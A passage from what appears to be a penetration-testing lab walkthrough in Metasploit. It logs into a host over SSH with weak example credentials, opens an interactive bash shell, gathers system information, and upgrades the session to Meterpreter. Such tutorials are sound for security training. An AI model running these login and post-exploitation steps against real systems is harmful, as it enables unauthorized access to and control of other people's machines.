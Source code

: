 Set the username and password for SSH login:

```bash
set USERNAME jackie
set PASSWORD password
```

Run the module to establish an SSH session:

```bash
run
```

### Post-Exploitation: Checking Basic Information

Once we have a **cmd shell session** from the SSH login, list all active sessions:

```bash
sessions
```

Switch to the **first session** (assuming it's session 1):

```bash
sessions 1
```

Check the current working directory:

```bash
pwd
```

Open an interactive Bash shell:

```bash
/bin/bash -i
```

Display the Linux distribution information:

```bash
cat /etc/*issue
```

Display the kernel version:

```bash
uname -r
```

### Upgrading to a Meterpreter Session

To upgrade the **cmd shell session** to a **Meterpreter session**, put the session in the background:

```bash
background
```

Use the **session upgrade** command:

```bash
sessions -u 1
```
